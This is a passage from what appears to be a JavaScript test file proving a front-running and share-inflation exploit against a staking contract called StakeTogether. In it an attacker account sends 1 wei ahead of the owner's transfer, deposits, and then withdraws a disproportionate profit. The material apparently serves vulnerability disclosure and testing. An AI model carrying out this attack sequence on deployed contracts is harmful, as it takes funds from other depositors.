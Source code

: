 ```javascript

            // Owner sends 1 ether to the contract, which the attacker front-ran
            await owner.sendTransaction({ to: stakeTogetherProxy, value: ethers.parseEther('1') })

            // Attacker withdraws their balance, which now includes the profit from the front-run
            const amountToWithdrawAttacker = await stakeTogether.connect(user1).balanceOf(user1.address)
            const tx3 = await stakeTogether
                .connect(user1)
                .withdrawPool(amountToWithdrawAttacker, poolAddress)
            await tx3.wait()

            // Record the attacker's ether balance after the attack
            const AttackerEtherAfter = await ethers.provider.getBalance(user1.address);

            // Log the profit made by the attacker in the console
            console.log("Profit = %d  ETH", ethers.formatUnits(AttackerEtherAfter - AttackerEtherBefore))

        })

        // Test case to demonstrate an attacker can front-run the owner's transaction to get disproportionate rewards
        it("should proof attacker can front run the owner's tx to get huge rewards", async function () {
            // Setup a pool address and a referral address for the test
            const poolAddress = user3.address
            const referral = user4.address
            // Add a pool to the contract setup by the owner
            await stakeTogether.connect(owner).addPool(poolAddress, true, false)
            
            // Attacker sends 1 wei to the contract, front-running the owner's transaction
            await user1.sendTransaction({ to: stakeTogetherProxy, value: ethers.parseUnits('1', 'wei') })

            // Attacker makes a deposit to the pool
            const user1DepositAmount = ethers.parseEther('16')
            const tx1 = await stakeTogether
                .connect(user1)
                .depositPool(poolAddress, referral, { value: user1DepositAmount })
            await tx1.wait()

            // Record the attacker's balance in the contract after the deposit
            const attackerBalance = await stakeTogether.connect(user1).balanceOf(user1.address);

            // Log the attacker's shares calculated from their balance
            console.log("Attacker shares = %d", await stakeTogether.connect(user1).sharesByWei(attackerBalance));

            // Owner sends 1 ether to the contract, which the attacker front-ran
            await owner.sendTransaction({ to: stakeTogetherProxy, value: ethers.parseEther('1') })

            // A regular user makes a deposit with 16 ETH to the pool (The attacker and the regular user have the same invested amount)
            const user2DepositAmount = ethers.parseEther('16')
            const tx2 = await stakeTogether
            .connect(user2)
            .depositPool(poolAddress, referral, { value: user2DepositAmount })
            await tx2.wait()

            // sending 1 ether to simulate a Router rebasing transaction with a profit of 1 ether
            await owner.sendTransaction({ to: stakeTogetherProxy, value: ethers.parseEther('10') })

```